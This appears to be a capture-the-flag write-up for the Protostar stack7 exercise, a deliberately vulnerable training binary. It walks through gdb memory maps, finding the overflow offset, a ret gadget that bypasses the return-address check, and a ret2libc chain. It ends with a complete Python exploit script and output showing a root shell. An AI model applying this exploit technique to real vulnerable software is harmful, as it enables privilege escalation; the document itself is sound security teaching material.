 ```yaml
---
title: Protostar Writeup - stack7
updated: 2018-10-14 16:30
---
```


## Protostar - stack7

Let's move on to the next level of Protostar. This is similar to the previous challenge.
Let's take a look at he code and see what differences are present.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
	char buffer[64];
	unsigned int ret;

	printf("input path please: "); fflush(stdout);

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xb0000000) == 0xb0000000) {
		printf("bzzzt (%p)\n", ret);
		_exit(1);
	}

	printf("got path %s\n", buffer);
	return strdup(buffer);
}

int main(int argc, char **argv)
{
	getpath();
}
```

So same stuff, but a different restriction on the return address... interesting. Let's take a look at what the address points to.

```sh
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 5409
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

As we can see from the map above since we're restricted from returning to libc. This is apparent from the `0xb00000000` check in the C code.
So how can we counter this? After digging a bit, I came across ret2code. Basically you make use of addresses of the binary itself.
From the map above it's clear that we can do so. But what do we do? That is the question. From the previous write up we know that we can
fake a stack frame and gain a root shell. Can we do that here somehow?

It is possible only if we can evade the check. If we do evade the check we can then reuse our ret2libc attack. Makes sense.
One way could be to immediately return from the function to completely avoid the check. This seems like a viable strategy.
There are many such ROP chains(of instructions) which can be used to craft our exploits. These instructions are also known as
ROP gadgets(pretty cool eh?).

Here's what a standard calling convention looks like taken from [here](https://en.wikipedia.org/wiki/X86_calling_conventions#Caller_clean-up).:

```assembly
caller:
        ; make new call frame (some compilers may produce an 'enter' instruction instead)
        push    ebp       ; save old call frame
        mov     ebp, esp  ; initialize new call frame
        ; push call arguments, in reverse (some compilers may subtract the required space from the
        ; stack pointer, then write each argument directly, see below. The 'enter' instruction can also do something similar)
        ; sub esp, 12 ; 'enter' instruction could do this for us
        ; mov [ebp-4], 3 ; or mov [esp+8], 3
        ; mov [ebp-8], 2  ; or mov [esp+4], 2
        ; mov [ebp-12], 1  ; or mov [esp], 1
        push    3
        push    2
        push    1
        call    callee    ; call subroutine 'callee'
        add     eax, 5    ; modify subroutine result (eax is the return value of our callee,
                          ; so we don't have to move it into a local variable)
        ; restore old call frame (some compilers may produce a 'leave' instruction instead)
        ; add   esp, 12   ; remove arguments from frame, ebp - esp = 12.
                          ; compilers will usually produce the following instead, which is just as fast,
                          ; and, unlike the add instruction, also works for variable length arguments
                          ; and variable length arrays allocated on the stack.
        mov     esp, ebp  ; most calling conventions dictate ebp be callee-saved,
                          ; i.e. it's preserved after calling the callee.
                          ; it therefore still points to the start of our stack frame.
                          ; we do need to make sure callee doesn't modify (or restores) ebp, though,
                          ; so we need to make sure it uses a calling convention which does this
        pop     ebp       ; restore old call frame
        ret               ; return
```

The instructions we're particularly interested in are the `pop x` and `ret` at the end of the above section.
Using those two instructions we can exit from a fucntion. Thinking of it we don't even need the `pop x`.
This simplifies our task. If we did have to use `pop` to restore the previous stack frame(which is not required in this case).
That's why a `ret` is sufficient.

Let's get started, first let's find the IP offset. Using our trustworthy pattern...

```python
>>> cyclic_metasploit(128)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...0Ab1Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3...Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A...Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

```python
>>> cyclic_metasploit_find(0x37634136)
80
```

So we know our padding is 80 bytes. Now lets get the address of ret from the binary...

```sh
$ objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 ...
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
```

Let's make use of the first address. Now we need the base address of libc which we have from the above proc map.
So that's at `0xb7e97000`. Now let's get the addresses of system and exit.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Notice how the functions are at within the restricted addresses. But this doesn't matter since we're avoiding the check.
That's why our ret2libc attack works again. One final thing we require is the shell string, which we can get the same way we did last time.

```sh
$ strings -a -t x /lib/libc-2.11.2.so
 11f3bf /bin/sh
```

Keep in mind that this is the offset and not the location of the shell string, we'll have to add this offset to libc's address to get the actual
address. Using all this, let's craft our exploit.

```python
import struct

padding = 'A' * 80

ret_addr = struct.pack("I", 0x8048383)
libc_start_addr = 0xb7e97000
shell_string_offset = 0x11f3bf
shell_string_addr = struct.pack("I", libc_start_addr + shell_string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

def go():
    payload = padding
    payload += ret_addr
    payload += system_addr
    payload += exit_addr
    payload += shell_string_addr
    print payload

go()
```

A quick and diry exploit, nothing fancy. Let's run it...

```sh
$ (python /tmp/exploit7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Easy peasy. Those are all of the stack exploits. If you've come so far, then good job, you now have basic understanding of why bufferoverflows are bad.
A word of caution...these techniques dont work anymore...at least not this easily. You have protections like DEP and ASLR which are put in place to prevent these kinds of attacks.

P.S.: If you like this blog please do feel free to share it with your friends :).

